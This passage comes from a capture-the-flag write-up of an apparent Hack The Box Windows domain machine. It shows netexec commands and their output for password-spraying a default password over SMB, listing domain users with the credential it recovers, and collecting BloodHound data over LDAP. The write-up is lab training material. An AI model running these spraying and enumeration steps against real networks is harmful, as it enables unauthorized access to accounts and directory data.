 lets check

![alt text](../assets/images/intelligence7.png)

nice we got our first pass `NewIntelligenceCorpUser9876` let do password spray

```bash
➜  Intelligence nxc smb DC.intelligence.htb -u users.txt -p 'NewIntelligenceCorpUser9876' --continue-on-success
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False) 
[SNIP]
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```

now i will check `--user` module to extract username list again.

```bash
nxc smb DC.intelligence.htb -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' --users
```

```bash
➜  Intelligence cat nxcusers.txt | awk '{print $5}' > users.txt
➜  Intelligence cat users.txt 
Danny.Matthews
Jose.Williams
Jason.Wright
Samuel.Richardson
David.Mcbride
```

okey its only work for Tiffany lets try on LDAP and lets see if we can dump BH data.

```bash
➜  Intelligence nxc ldap DC.intelligence.htb -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' 
LDAP        10.10.10.248    389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:intelligence.htb)
LDAP        10.10.10.248    389    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
➜  Intelligence nxc ldap DC.intelligence.htb -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876'  --bloodhound --dns-server 10.10.10.248 --collection All
LDAP        10.10.10.248    389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:intelligence.htb)
LDAP        10.10.10.248    389    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
LDAP        10.10.10.248    389    DC               Resolved collection methods: dcom, psremote, container, localadmin, objectprops, session, trusts, rdp, group, acl
LDAP        10.10.10.248    389    DC               Done in 00M 18S
LDAP        10.10.10.248    389    DC               Compressing output into /home/elliot/.nxc/logs/DC_10.10.10.248_2025-07-10_055500_bloodhound.zip
```
